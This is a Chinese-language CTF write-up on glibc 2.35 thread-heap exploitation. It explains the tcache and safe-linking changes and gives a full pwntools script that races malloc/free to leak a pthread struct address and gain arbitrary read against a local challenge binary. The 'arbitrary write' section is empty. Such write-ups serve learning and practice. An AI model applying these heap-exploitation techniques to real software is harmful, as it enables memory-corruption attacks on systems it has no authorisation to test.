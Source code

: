 ```yaml
---
layout: post
tags: [pwn]
title: "glibc 2.35 thread-heap: arenas 利用手法"
author: wsxk
date: 2025-5-20
comments: true
---
```


- [0. glibc 2.35与 glibc 2.31的区别](#0-glibc-235与-glibc-231的区别)
- [1. arbitrary read](#1-arbitrary-read)
- [2. arbitrary write](#2-arbitrary-write)

`thread heap的利用手法多数都是依靠race condition来获取任意地址读写的能力，辅以一些常见的tips即可完成利用`<br>
**任意地址读写的说法其实也适用于其他的利用手法,从这个角度来思考安全问题是很有意义的**<br>
# 0. glibc 2.35与 glibc 2.31的区别<br>
最主要的区别在于移除了`free_hook`等之前非常好用的符号,已经`safe-linking`机制:<br>
参考这篇文章：[https://wsxk.github.io/safelinking/](https://wsxk.github.io/safelinking/)<br>
另外在调试glibc2.35可以发现：glibc2.35中的`tcache->key`部分也发生了修改，不再是`tcache_perthread_struct`了，而是真的随机的值.如下图所示：<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2025-9-25/20250518105647.png)
总之，`tcache->key`部分已经没有了价值，但是`tcache->next`部分非常有用。<br>

# 1. arbitrary read<br>
**利用arbitrary read可以任意读取.bss段（没有添加PIE）、Thread heap中的数据（前提是知道地址）**<br>
race的利用难度主要在于调试（个人理解）<br>

```python
from pwn import *
import os

#binary_path = "/challenge/babyprime_level1.1"
binary_path = './babyprime_level1.1'
p = process(binary_path)
r1 = remote("127.0.0.1",1337)
r2 = remote("127.0.0.1",1337)

idx = 0
def leak_pthread_struct_addr(r1,r2):
    global idx
    while True:
        if os.fork() == 0:
            for _ in range(100000):
                r1.sendline(b"malloc %d scanf %d AAAAAAAABBBBBBBB free %d"%(idx,idx,idx))
            os.kill(os.getpid(),9)
        for _ in range(100000):
            r2.sendline(b"printf %d" % idx)
        os.wait()
        r1.clean()
        output = r2.clean()
        try:
            result = set(output.split(b"\n"))
            print(result)
            #pause()
            leak  = next(x for x in result if ((b"\x07" in x) and len(x)>=17))
            print(leak)
            leak = u64(leak[9:17].ljust(8,b"\x00"))
            if leak & 0xff != 0:
                print("leak error, try again!!!")
                continue
            break 
        except Exception as e:
            print(f"error:{e}")
            print(f"leak pthread_struct_addr try again!!!")
    idx += 1
    return leak

def arbitrary_read(r1,r2,addr):
    global idx
    r1.clean()
    r2.clean()
    r1.sendline(b"malloc %d malloc %d free %d" %(idx,idx+1,idx+1))
    while True:
        if os.fork() == 0:
            r1.sendline(b"free %d" %(idx))
            os.kill(os.getpid(),9)
        r2.sendline((b"scanf %d "% (idx) + p64(addr)+b"BBBBBBBB\n")*2000)
        os.wait()
        r1.sendline(b"malloc %d printf %d"%(idx,idx))
        r1.recvuntil(b"MESSAGE: ")
        output = r1.recvline().strip(b"\n")
        target = p64(addr).split(b"\x00")[0]
        if output == target:
            break
    r1.sendline(b"malloc %d"%(idx+1))
    r1.clean()
    r1.sendline(b"printf %d"% (idx+1))
    r1.recvuntil(b"MESSAGE: ")
    value = u64(r1.recvline().strip(b"\n").ljust(8,b"\x00"))
    return value

# gdb.attach(p,"continue\n")
# pause()
# r1.sendline(b"malloc 1")
# r1.sendline(b"scanf 1 AAAAAAAABBBBBBBB free 1")
# r2.sendline(b"malloc 2")
# r2.sendline(b"scanf 2 CCCCCCCCDDDDDDDD free 2")
# pause()
pthread_struct_addr = leak_pthread_struct_addr(r1,r2)<< 12
log.success(f"pthread_struct_addr: {hex(pthread_struct_addr)}")
secret = arbitrary_read(r1,r2,(pthread_struct_addr>>12)^0x405460)
log.success(f"secret: {hex(secret)}")
r1.sendline(b"send_flag")
r1.recvuntil(b"Secret: ")
r1.sendline(p64(secret))
output = r1.clean()
print(output)
p.interactive()
```

# 2. arbitrary write<br>




<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>